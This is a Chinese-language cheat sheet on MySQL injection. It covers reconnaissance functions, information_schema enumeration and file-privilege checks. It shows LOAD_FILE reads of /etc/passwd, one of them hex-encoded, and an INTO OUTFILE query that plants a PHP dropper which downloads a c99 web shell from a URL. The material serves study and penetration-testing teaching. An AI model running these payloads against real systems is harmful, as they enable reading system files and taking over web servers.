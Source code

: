 ```yaml
---
title: "Mysql 注入"
date: 2016-04-21 11:50
---
```


## 常用函数

```
system_user()     系统用户名
user()            MYSQL用户名 
current_user()    当前用户名
session_user()    连接数据库的用户名
database()        当前数据库名
schema()          当前数据库名
version()         当前数据库版本信息
load_file()       MYSQL读取本地文件

@@datadir
@@hostname          服务器主机名
```

## information_schema

```
# 查看数据库服务器上的数据库
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA

# 查看某个数据库里面的数据表
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema ='数据库名'

# 查看某个数据表里面的字段
#   默认当前数据库
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name ='表名'
#   指定数据库
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name ='表名' AND table_schema ='数据库名'
```

## 文件权限

查询用户读写文件操作权限：

```
# 需要root用户来执行 	MySQL 4/5
SELECT file_priv FROM mysql.user WHERE user = 'username';

# 普通用户都可以 	MySQL 5
SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%'; 	
```

## load_file()

用户有文件操作权限则可以读取文件

```
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE(0x2F6574632F706173737764);
```

要求：

```
文件必须在服务器上。
LOAD_FILE()函数操作文件的当前目录是@@datadir 。
MySQL用户必须拥有对此文件读取的权限。
文件大小必须小于 max_allowed_packet。
@@max_allowed_packet的默认大小是1047552 字节
```

## 写文件

如果用户有文件操作权限可以写文件

```
INTO OUTFILE/DUMPFILE
```

```
SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'

http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt
```

注：

```
INTO OUTFILE 不可以覆盖已存在的文件。
INTO OUTFILE 必须是最后一个查询。
引号是必须的，因为没有办法可以编码路径名
```
 
参考：

[乌云 MySql注入科普][1]

[1]: http://drops.wooyun.org/tips/123